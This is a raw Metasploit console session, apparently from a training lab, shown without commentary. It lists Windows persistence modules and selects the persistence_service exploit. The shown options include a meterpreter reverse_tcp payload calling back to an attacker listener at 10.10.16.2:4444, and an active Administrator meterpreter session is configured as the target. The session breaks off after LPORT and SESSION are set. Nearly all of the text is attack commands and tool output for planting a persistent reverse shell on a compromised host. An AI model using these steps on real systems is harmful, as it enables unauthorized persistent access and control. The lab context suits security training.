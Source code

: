```
   7   exploit/windows/local/wmi_persistence                 2017-06-06       normal     No     WMI Event Subscription Persistence
   8   post/windows/gather/enum_ad_managedby_groups                           normal     No     Windows Gather Active Directory Managed Groups
   9   post/windows/manage/persistence_exe                                    normal     No     Windows Manage Persistent EXE Payload Installer
   10  post/windows/manage/sshkey_persistence                                 good       No     SSH Key Persistence


Interact with a module by name or index. For example info 10, use 10 or use post/windows/manage/sshkey_persistence

msf6 exploit(windows/http/badblue_passthru) > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence_service) > show options

Module options (exploit/windows/local/persistence_service):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   REMOTE_EXE_NAME                       no        The remote victim name. Random string as default.
   REMOTE_EXE_PATH                       no        The remote victim exe path to run. Use temp directory as default.
   RETRY_TIME           5                no        The retry time that shell connect failed. 5 seconds as default.
   SERVICE_DESCRIPTION                   no        The description of service. Random string as default.
   SERVICE_NAME                          no        The name of service. Random string as default.
   SESSION                               yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(windows/local/persistence_service) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                  Connection
  --  ----  ----                     -----------                                  ----------
  1         meterpreter x64/windows  ATTACKDEFENSE\Administrator @ ATTACKDEFENSE  10.10.16.2:4444 -> 10.0.19.113:49749 (10.0.19.113)

msf6 exploit(windows/local/persistence_service) > set LPORT 4433
LPORT => 4433
msf6 exploit(windows/local/persistence_service) > set SESSION 1
SESSION => 1
```